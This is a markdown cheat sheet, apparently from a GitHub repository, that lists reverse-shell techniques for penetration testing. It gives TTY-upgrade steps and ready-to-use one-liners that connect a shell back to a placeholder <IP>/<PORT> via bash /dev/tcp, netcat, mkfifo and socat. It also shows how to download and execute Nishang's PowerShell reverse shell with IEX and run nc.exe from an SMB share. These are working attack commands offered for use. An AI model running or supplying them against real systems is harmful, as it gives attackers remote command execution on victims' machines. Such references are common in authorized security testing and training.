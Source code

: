 # Reverse Shells

## Interactive TTYs

> It's also possible to use `rlwrap` when starting your listening socket. (e.g. `rlwrap nc -nlvp 443`)

```bash
script /dev/null -c bash
```

or

```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```

and then

```bash
# <Ctrl> + <z>
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=bash
# Check size in another window: stty size
stty rows <ROWS> columns <COLUMNS>
```

## Reverse Shells

### Bash

```bash
bash -i >& /dev/tcp/<IP>/<PORT> 0>&1
```

### Ncat

```bash
nc -e /bin/bash <IP> <PORT>
```

### Mkfifo

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <IP> <PORT> >/tmp/f
```

### Socat

```bash
socat tcp-connect:<IP>:<PORT> exec:/bin/bash,pty,stderr,setsid,sigint,sane
```

### PowerShell (Nishang)

Run this on your local machine:

```bash
curl -sL https://raw.githubusercontent.com/samratashok/nishang/master/Shells/Invoke-PowerShellTcp.ps1 -o rs.ps1
echo "Invoke-PowerShellTcp -Reverse -IPAddress <IP> -Port <PORT>" >> rs.ps1
python3 -m http.server 80
```

And while running the python http server, execute this on the target:

```powershell
powershell "IEX(New-Object Net.WebClient).downloadString('http://<IP>/rs.ps1')"
```

### PowerShell (Ncat)

Locate "nc.exe" and copy it to your current directory, then run this on your local machine:

```bash
smbserver.py smbShare $(pwd) -smb2support
```

And while running the smb server, execute this on the target:

```batch
\\<IP>\smbShare\nc.exe -e cmd <IP> <PORT>
```
